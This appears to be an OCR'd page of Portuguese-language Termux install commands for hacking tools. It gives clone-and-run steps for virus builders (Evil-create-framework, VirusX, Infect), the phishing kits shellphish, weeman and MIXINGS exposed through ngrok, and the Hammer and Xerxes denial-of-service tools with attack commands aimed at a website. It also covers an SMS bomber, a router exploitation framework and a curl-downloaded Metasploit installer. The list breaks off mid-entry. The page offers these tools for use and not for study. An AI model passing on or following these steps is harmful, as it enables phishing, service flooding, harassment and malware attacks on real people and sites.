 *PyReconExSploit*  apt-get update   apt-get upgrade   apt-get install exploitdb netcat nmap perl php   git clone https://github.com/AkutoSai/PyReconExSploit   cd PyReconExSploit/  python3 setup.py install   cp -r /home/user/Desktop/PyReconExSploit/pyreconexsploit /usr/local/lib/python3.7/dist-packages pyreconexsploit  =================================================  *Evil Framework*  apt update  apt upgrade   pip2 install requests  git clone https://github.com/LOoLzeC/Evil-create-framework  cd Evil-create-framework  python2 vcrt.py  show android  help  Escolha um virus  create virus%seu virus%  SET OUTPUT cd /sdcard  SET VIRUS NAME %nome do seu virus%   run ================================================= *Wifite*  apt update && apt upgrade  apt install git  apt install python2  git clone https://github.com/derv82/wifite2  ls  cd wifite  ls  python2 wifite.py ================================================= *MALICIOUS*  $ termux-setup-storage  $ cd /sdcard   $ apt install git   $ apt install python2   $ apt install ruby   $ gem install lolcat   $ git clone https://github.com/Hider5/Malicious   $ cd Malicious   $ pip2 install -r requirements.txt   $ python2 malicious.py ================================================= *Hammer*  apt update  apt-get install python -y  apt install git  apt install python3  git clone https://github.com/cyweb/hammer  ls  cd hammer  chmod +x hammer.py  python3 hammer.py  -s (alvo) -p 80 -t 150  ================================================= *VIRUS X*  $ apt update && apt upgrade $ apt install git   $ apt install python  $ git clone https://github.com/TSMaitry/VirusX.git   $ cd VirusX  $ chmod +x VirusX.py   $ python2 VirusX.py ================================================= *INFECT*  $ apt-get update -y   $ apt-get upgrade -y   $ apt install python -y  $ apt install python2 -y   $ apt install git -y   $ pip install lolcat   $ git clone https://github.com/noob-hackers/Infect   $ ls   $ cd infect   $ ls   $ bash infect.sh =================================================  *F-Society Framework*  (Instalação)  apt install git  apt install python2  (Instalação do pacote)  git clone https://github.com/Manisso/fsociety  ls  cd fsociety  ls  chmod +x fsociety.py  ./install.sh  python2 fsociety.py  =================================================  *MyServer*  Abra o termux e digite os seguintes comandos.  apt update  apt install git  git clone https://github.com/rajkumardusad/MyServer  cd MyServer  chmod +x install  ./install =================================================  *AirCrack-ng*  apt update  apt install root-repo  apt install aircrack-ng =================================================  *RouterSploit*  apt update && apt upgrade  apt install python -y  pip2 install  apt install git  git clone https://github.com/threat9/routersploit  ls  cd routersploit  pip2 install -r requirements -dev.txt  pip install future  ls  python rsf.py =================================================  *Shell Phish*  apt update  apt upgrade -y  termux-setup-storage  apt installl git  git clone https://github.com/thelinuxchoice/shellphish  cd shellphish  apt installl php  apt install curl  git clone https://github.com/PSecurity/ps.ngrok  cd ps.ngrok  mv ngrok /data/data/com.termux/files/home/shellphish/  cd ..  rm -rf ps.ngrok  chmod +x ngrok  chmod +x shellphish.sh  bash shellphish.sh  # Ao Iniciar:  cd shellphish  bash shellphish.sh  comandos :  pkg install clang   git clone https://github.com/XCHADXFAQ77X/XERXES   ls  cd XERXES   ls  chmod +x *  ls  clang xerxes.c -o xerxes   ./xerxes exemplo: website.com.br 80  galera lembrando nao bote HTTPS nem www so o nome do site exemplo : website.com.br   ``` ALGUNS COMANDOS DO TERMUX BY: BAN```  apt update && apt upgrade  termux-setup-storage apt install git apt install net-tools apt install termux-tools apt install neofetch apt install ncurses-utils apt install curl curl -LO https://raw.githubusercontent.com/Hax4us/Metasploit_termux/master/metasploit.sh chmod +x metasploit.sh ./metasploit.sh msfconsole ____________________________________________ https://github.com/PSecurity/ps.ngrok  termux-setup-storage apt update && apt upgrade -y pkg update && pkg upgrade -y apt install curl pkg install git git clone https://github.com/PSecurity/ps.ngrok cd ps.ngrok mv ngrok /data/data/com.termux/files/home cd .. chmod +x ngrok ./ngrok ( chave de ativação NGROK) ./ngrok http 80 ________________________________________________ apt update Apt install python2  Apt install git Git clone https://github.com/evait-security/weeman ls cd weeman chmod +x * python2 weeman.py Set url (url) set action_url (url) run (→Abra outra página←)      cd .. ./ngrok http 8080  ____________________________________________ apt update apt upgrade apt git git clone https://github.com/liorvh/hammer-1 cd hammer-1 chmod +x * python hammer.py python hammer.py -s (site + www) -t 256 -p 80 ___________________________________________________ apt install git Pkg install clang  Faça a instalação do Script git clone https://github.com/zanyarjamal/xerxes  Entre no diretório cd xerxes  Digite o comando clang xerxes.c -o xerxes  Agora e só inicia o Ataque ./xerxes website.com 80 ____________________________________________ apt update && apt upgrade apt install php apt install python2 apt install toilet apt install git git clone https://github.com/4L13199/LITESPAM cd LITESPAM ls sh LITESPAM.sh As opções aparecerão como mostrado abaixo, você apenas escolhe qual bomba de spam SMS será executada ____________________________________________  $ pkg update $ pkg upgrade $ pkg install git $ pkg install php $ pkg install toilet $ pkg install python2 $ gem install lolcat $ pip2 install requests $ pip2 install termcolor $ git clone https://github.com/mbest99/MIXINGS.git $ cd MIXINGS $ bash 0ppay.sh  Features:-  [ 1] PHISING V1 [ 2] PHISING V2 [ 3] PHISING V3 [ 4] PHISING V4 [ 5] PHISING GAME [ 6] Hack fb target [ 7] Hack fb